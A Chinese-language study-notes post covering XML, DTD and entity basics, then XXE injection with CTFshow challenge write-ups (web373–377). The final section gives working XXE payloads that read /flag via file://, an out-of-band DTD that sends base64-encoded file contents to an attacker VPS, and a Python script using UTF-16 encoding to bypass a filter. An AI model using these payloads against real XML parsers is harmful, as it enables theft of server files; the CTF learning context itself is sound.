 ## 一、XML学习

> XML 指可扩展标记语言（e**X**tensible **M**arkup **L**anguage）。
>
> XML 被设计用来传输和存储数据。
>
> XML 很重要，也很容易学习。

一个简单的XML实例

```xml
<?xml version="1.0" encoding="UTF-8"?>
<note>
    <to>Tove</to>
    <from>ShanXi</from>
    <hello>World</hello>
    <body>my name is yanmie</body>
</note>
```

![image-20210420163139361](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210420163146.png)

#### 1.1 XML简介

> XML 被设计用来传输和存储数据。
>
> HTML 被设计用来显示数据。

**什么是XML？**

- XML 指可扩展标记语言（EXtensible Markup Language）。
- XML 是一种很像HTML的标记语言。
- XML 的设计宗旨是传输数据，而不是显示数据。
- XML 标签没有被预定义。您需要自行定义标签。
- XML 被设计为具有自我描述性。
- XML 是 W3C 的推荐标准。

**HTML 中使用的标签都是预定义的。HTML 文档只能使用在 HTML 标准中定义过的标签（如 <p>、<h1> 等等）。**

**XML 允许创作者定义自己的标签和自己的文档结构。**

> XML 应用于 Web 开发的许多方面，常用于简化数据的存储和共享。
>
> 
>
> 目前，XML文件作为配置文件（Spring、Struts2等）、文档结构说明文件（PDF、RSS等）、图片格式文件（SVG header）应用比较广泛。

#### 1.2 XML树结构

> XML 文档形成了一种树结构，它从"根部"开始，然后扩展到"枝叶"。

比如：

```xml
<?xml version="1.0" encoding="UTF-8"?> <!--XML声明,定义XML的版本和所使用的编码 -->
<people age="120">    <!-- 描述文档的根元素，可以附加属性 -->
    <height>180cm</height>    <!-- 自定义的3个子元素，即为peolple的属性 -->
    <weight>60kg</weight>
    <character>好</character>
</people>               <!-- 定义根元素的结尾 -->
```

注意：

* XML文档必须包含根元素，该元素是所有其他元素的父元素。
* XML 文档中的元素形成了一棵文档树。这棵树从根部开始，并扩展到树的最底端。
* 所有的元素都可以由子元素。

```xml
<?xml version="1.0" encoding="utf-8" ?>
<root>
    <people>
        <chlid>
            hello ~
        </chlid>
    </people>
</root>
```

实例中的根元素是 <bookstore>。文档中的所有 <book> 元素都被包含在 <bookstore> 中。

<book> 元素有 4 个子元素：<title>、<author>、<year>、<price>。

```xml

<bookstore>
    <book category="COOKING">
        <title lang="en">Everyday Italian</title>
        <author>Giada De Laurentiis</author>
        <year>2005</year>
        <price>30.00</price>
    </book>
    <book category="CHILDREN">
        <title lang="en">Harry Potter</title>
        <author>J K. Rowling</author>
        <year>2005</year>
        <price>29.99</price>
    </book>
    <book category="WEB">
        <title lang="en">Learning XML</title>
        <author>Erik T. Ray</author>
        <year>2003</year>
        <price>39.95</price>
    </book>
</bookstore>
```

#### 1.3 XML语法

* **XML必须包含根元素，它是其他元素的父元素**

  ```xml
  <root>
      <a>abc</a>
  </root>
  ```

* **XML声明文件的可选部分，如果存在需要放在文档的第一行**

  ```xml
  <?xml version="1.0" encoding="utf-8"?>
  ```

* **所有的XML元素都必须有一个关闭标签**

  也就是说XML元素必须有头有尾,一对一对的出现.

  XML声明没有关闭标签，这不是错误，声明不是XML文档本身的一部分，它没有关闭标签。

  ![image-20210420170456542](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210420170456.png)

* **XML标签对大小写敏感**

  所以必须使用相同的大小写来编写打开标签和关闭标签。

* **XML必须正确嵌套**

  ```
  如:<abc><test></abc></test>       //这样就是错误的
  <abc><test></test></abc>          //正确的嵌套
  ```

* **XML属性值必须加引号**

  在设置了属性值之后，必须加引号

  ```xml
  <people age=18>   <!-- 错误的 -->
  </people>
  ```

* **实体引用**

  在XML中，一些字符拥有特殊的意义。

  如把字符放 `<` 放在XML元素中，会发生错，因为解析器会把它当多新元素的开始。

  可使用**实体引用**来代替相应的字符。

  ```xml
  <people>hello < world</people>    # 错误
     
  <people>hello  &lt; world</people>    # 正确
  ```

  ![image-20210420171834987](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210420171835.png)

* **XML中的注释**

  ```xml
  <!-- 这是注释 -->
  ```

* **XML中，空格会被保留**

  HTML 会把多个连续的空格字符裁减（合并）为一个，

  在 XML 中，文档中的空格不会被删减。

* **XML以LF存储换行**

  > 在 Windows 应用程序中，换行通常以一对字符来存储：回车符（CR）和换行符（LF）。
  >
  > 在 Unix 和 Mac OSX 中，使用 LF 来存储新行。
  >
  > 在旧的 Mac 系统中，使用 CR 来存储新行。
  >
  > XML 以 LF 存储换行。

#### 1.4 XML元素

##### 什么是XML元素

XML 元素指的是从（且包括）开始标签直到（且包括）结束标签的部分。

一个元素可以包含：

- 其他元素
- 文本
- 属性
- 或混合以上所有...

```xml
<?xml version="1.0" encoding="utf-8"?>
<root>
    <people age="25">
        <height>180cm</height>
    </people>
    <people age="30">
        <height>175cm</height>
    </people>
</root>
```

##### XML命名规则

遵循：

* 名称可以包含字母、数字以及其他字符
* 名称不能以数字或者标点符号开始
* 名称不能以字母 xml (或者XML、Xml等) 开始
* 名称不能包含空格



命名时应具有描述性并且符合规则。

##### XML元素是可扩展的

#### 1.5 XML属性

属性通常不属于数据组成部分的信息。但是有时候可以进行标志。

XML属性必须加引号。

可以使用元素代替属性进行标志。

#### 1.6 XML验证

可以通过`DTD`验证XML是合法的 XML。

此处请先到 第二节阅读 DTD教程。

#### 1.7 XML CDATA

XML 文档中的所有文本均会被解析器解析。

只有 CDATA 区段中的文本会被解析器忽略。

**PCDATA**

XML 解析器通常会解析 XML 文档中所有的文本。

当某个 XML 元素被解析时，其标签之间的文本也会被解析。

**CDATA**

术语 CDATA 是不应该由 XML 解析器解析的文本数据。

像 "<" 和 "&" 字符在 XML 元素中都是非法的。

"<" 会产生错误，因为解析器会把该字符解释为新元素的开始。

"&" 会产生错误，因为解析器会把该字符解释为字符实体的开始。

某些文本，比如 JavaScript 代码，包含大量 "<" 或 "&" 字符。为了避免错误，可以将脚本代码定义为 CDATA。

CDATA 部分中的所有内容都会被解析器忽略。

CDATA 部分由 "**<![CDATA[**" 开始，由 "**]]>**" 结束：

```
<script>
<![CDATA[
function matchwo(a,b)
{
if (a < b && a < 0) then
{
return 1;
}
else
{
return 0;
}
}
]]>
</script>
```

在上面的实例中，解析器会忽略 CDATA 部分中的所有内容。

**关于 CDATA 部分的注释：**

CDATA 部分不能包含字符串 "]]>"。也不允许嵌套的 CDATA 部分。

标记 CDATA 部分结尾的 "]]>" 不能包含空格或换行。

## 二、DTD学习

#### 2.1 DTD简介

DTD（文档类型定义）的作用是定义XML文档的合法构建模块。

DTD可被成行的声明用于XML文档中，也可作为一个外部引用。

**内部的DOCTYPE声明**

特定语法：

```dtd
<!DOCTYPE 根元素 [元素声明]>
```

实例：

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE people [
<!ELEMENT people (height,weight)>
<!ELEMENT height (#PCDATA)>
<!ELEMENT weight (#PCDATA)>
]>

<people>
    <height>180cm</height>
    <weight>66kg</weight>
</people>
```

输出：

![image-20210420175414864](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210420175414.png)

对以上DTD解释：

* !DOCTYPE people （第二行）定义此文档是people类型的文档
* !ELEMENT people （第三行）定义 people 元素有四个元素: height,weight
* !ELEMENT height  （第四行）定义 height 元素为 “#PCDATA” 类型
* !ELEMENT weight  （第五行）定义 weight 元素为 “#PCDATA” 类型

**外部文档申明**

假如 DTD 位于 XML 源文件的外部，那么它应通过下面的语法被封装在一个 DOCTYPE 定义中：

```dtd
<!DOCTYPE 根元素 SYSTEM "文件名">
```

实例：

```xml
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE people SYSTEM "7.dtd">

<people>
    <height>180cm</height>
    <weight>66kg</weight>
</people>
```

7.dtd  文件：

```dtd
<!ELEMENT people (height,weight)>
<!ELEMENT height (#PCDATA)>
<!ELEMENT weight (#PCDATA)>
```

![image-20210420180806192](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210420180806.png)

#### 2.2 DTD构建模块

所有的 XML 文档（以及 HTML 文档）均由以下简单的构建模块构成：

- 元素
- 属性
- 实体
- PCDATA
- CDATA

**PCDATA**

PCDATA 的意思是被解析的字符数据（parsed character data）。

可把字符数据想象为 XML 元素的开始标签与结束标签之间的文本。

**PCDATA 是会被解析器解析的文本。这些文本将被解析器检查实体以及标记。**

文本中的标签会被当作标记来处理，而实体会被展开。

不过，被解析的字符数据不应当包含任何 &、< 或者 > 字符；需要使用 &amp;、&lt; 以及 &gt; 实体来分别替换它们。

**CDATA**

CDATA 的意思是字符数据（character data）。

**CDATA 是不会被解析器解析的文本**  在这些文本中的标签不会被当作标记来对待，其中的实体也不会被展开。

#### 2.3 DTD实体

> ------
>
> 实体是用于定义引用普通文本或特殊字符的快捷方式的变量。
>
> (实体其实可以看成一个变量，到时候我们可以在 XML 中通过 & 符号进行引用)
>
> - 实体引用是对实体的引用。
> - 实体可在内部或外部进行声明。

**内部实体声明**

语法：

```dtd
<!ENTITY 实体名称 "实体的值">
```

一个实体由三部分构成: 一个和号 (&), 一个实体名称, 以及一个分号 (;)。

实例：

xml:

```xml
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE people [
        <!ELEMENT people ANY>
        <!ENTITY height "hello">
        <!ENTITY weight "world">
        ]>

<people>
    &height; &weight;
</people>
```



![image-20210420182931805](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210420182931.png)



**外部实体声明**

语法：

```dtd
<!ENTITY 实体名称 SYSTEM "URI/URL">

<!ENTITY 实体名称 PUBLIC "DTD标识名" "公用DTD的URI">
```

俩个关键字有什么区别:
    PUBLIC是指公用DTD,其是某个权威机构制定，供特定行业或公司.
    SYSTEM是指该外部DTD文件是私有的，即我们自己创建的，没有公开发行，只是个人或在公司内部或者几个合作单位之间使用.
    公用DTD使用PUBLIC代替了原来的SYSTEM，并增加了DTD标识名。

**各语言引用外部实体时支持的一些协议:**

![图片](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210420183501.jpeg)

实例：

现在浏览器不再支持对外部实体直接解析,所以这里借助php来解析.当然也能用其他语言

```dtd
<!DOCTYPE people SYSTEM “*.dtd”>
<!ELEMENT xxx (…)>
…
```

```dtd
<!DOCTYPE people SYSTEM “*.dtd” [
<!ELEMENT xxx (…)>
 …
]>
```

**参数实体**

申明：

```
内部：<!ENTITY % 实体名称 "实体值">

外部：<!ENTITY % 实体名称 SYSTEM "URI"
```

```
(1)使用 % 实体名(这里面空格不能少) 在 DTD 中定义，并且只能在 DTD 中使用 “%实体名;” 引用
(2)只有在 DTD 文件中，参数实体的声明才能引用其他实体
(3)和通用实体一样，参数实体也可以外部引用
```

简单理解呢，就是参数实体不能像普通实体那样在xml文档内容中进行引用，它的引用范围只在当前xml文件的DTD声明中，或者是当前的DTD文件中。

```dtd
<?xml version="1.0" encoding="utf-8" ?>

<!DOCTYPE people [
        <!ENTITY % test "<!ENTITY height 'hello world'>">
        %test;
        ]>

<people>
    &height;
</people>
```

## 三、XXE漏洞

> XXE（XML EXternal Entity）即XML外部实体注入攻击，是一种常见的Web安全漏洞，发生在应用程序解析XML输入时，没有禁止外部实体的加载,导致攻击者可以通过XML的外部实体获取服务器中本应被保护的数据

产生原因： 在文档类型定义部分，可以引用外部的DTD文件。

攻击方式，见一下CTFSHOW题目。

## 四、XXE练习

#### 4.1 web373 

```php
<?php

error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $creds = simplexml_import_dom($dom);
    $ctfshow = $creds->ctfshow;
    echo $ctfshow;
}
highlight_file(__FILE__);    
```

> libxml_disable_entity_loader 
>
> 
>
> 禁用/启用加载外部实体的功能。请注意，禁用加载外部实体可能会导致加载XML文档时出现一般性问题。但是，从libxml2.9.0开始，实体替换在默认情况下是禁用的，因此不需要禁用加载外部实体，除非需要使用libxml\NOENT解析内部实体引用。通常，最好使用libxml\u set\u external\u entity\u loader（）来抑制外部实体的加载。 

![image-20210420194353479](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210420194353.png)

* loadXML() 方法通过解析一个 XML 标签字符串来组成该文档。
* simplexml_import_dom() 函数把 DOM 节点转换为 SimpleXMLElement 对象。

payload:

```
<!DOCTYPE ctf [
<!ENTITY xxe SYSTEM "file:///flag">
]>
<ctf>
<ctfshow>&xxe;</ctfshow>
</ctf>
```

#### 4.2 web374-376~无回显

```php
<?php

error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__);    
```

payload:

```
<!DOCTYPE test [
<!ENTITY % xxe SYSTEM "http://167.160.189.2/1.dtd">
%xxe;
]>
<root>123</root>
```

远程 1.dtd:

```dtd
<!ENTITY % a SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
<!ENTITY % b "<!ENTITY &#x25; c SYSTEM 'http://VPS:8888/?a=%a;'> ">
%b;
%c;
```

然后监听vps 8888 端口，会有请求参数，base64解码就为flag。

#### web377

```php
<?php

error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(preg_match('/<\?xml version="1\.0"|http/i', $xmlfile)){
    die('error');
}
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__);    
```

payload

```
import requests

url = 'http://a29eb058-cffe-45d9-8004-5761328fee63.challenge.ctf.show:8080/'
payload = """<!DOCTYPE test [
<!ENTITY % xxe SYSTEM "http://VPS/1.dtd">
%xxe;
]>
<root>123</root>>"""
payload = payload.encode('utf-16')
requests.post(url ,data=payload)
```

编码绕过。





菜鸟教程~XML： https://www.runoob.com/xml/xml-tutorial.html

菜鸟教程~DTD： https://www.runoob.com/dtd/dtd-tutorial.html

php-dom:     https://www.runoob.com/php/php-xml-parser-expat.html

XXE:    https://mature-sec.com/post/xxe%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/

XXE:  https://xz.aliyun.com/t/3357